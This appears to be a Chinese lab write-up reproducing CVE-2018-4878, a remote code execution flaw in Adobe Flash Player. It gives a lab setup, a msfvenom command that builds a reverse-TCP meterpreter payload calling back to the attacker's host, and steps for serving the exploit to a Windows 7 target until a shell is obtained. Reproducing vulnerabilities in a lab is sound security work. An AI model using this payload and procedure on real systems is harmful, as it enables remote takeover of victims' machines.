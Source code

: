 （CVE-2018-4878）Adobe Flash Player 远程代码执行漏洞
====================================================

一、漏洞简介
------------

2018年1月31日，韩国CERT发布公告称发现Flash
0day漏洞的野外利用，攻击者执行针对性的攻击；2月1日Adobe发布安全公告，确认Adobe
Flash Player 28.0.0.137
及早期版本存在远程代码执行漏洞（CVE-2018-4878）；2月2日，Cisco
Talos团队发布了事件涉及攻击样本的简要分析；2月7日，Adobe发布了CVE-2018-4878漏洞的安全补丁。

二、漏洞影响
------------

Adobe Flash Player \<= 28.0.0.137

三、复现过程
------------

-   1.环境    kail: `192.168.184.128`    win7sp1: `192.168.184.131`    exp: `CVE-2018-4878-master.zip `    flash: `AdobeFlashPlayer28.0.0.161正式版.zip`
-   2.利用msfvenom生成对应的shellcode代码

```{=html}
<!-- -->
```
    msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.184.128 lport=4444 -f python>shellcode.txt

![1.png](./resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId24.png)

-   3.进入 CVE-2018-4878-master
    目录，编辑`CVE-2018-4878.py`文件，将msfvenom生成的代码覆盖掉原来的代码

![2.png](./resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId25.png)

-   4.修改 swf 文件及 html 文件位置

![3.png](./resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId26.png)

-   5.Python 执行 CVE-2018-4878-master.py 代码，会生成两个文件，一个 swf
    文件，一个 html 文件

![4.png](./resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId27.png)

-   6.把生成的两个文件放到apache web目录下

![5.png](./resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId28.png)

-   7.通过msf开启反弹sehll监听

![6.png](./resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId29.png)

-   8.靶机上win7安装存在漏洞的adobe flash player 28.0.0.126

![7.png](./resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId30.png)

-   9.通过win7自带的ie浏览器进行访问`192.168.184.128/index2.html`

![8.png](./resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId31.png)

-   10.Kail上成功获取到meterpreter shell

![9.png](./resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId32.png)

![10.png](./resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId33.png)
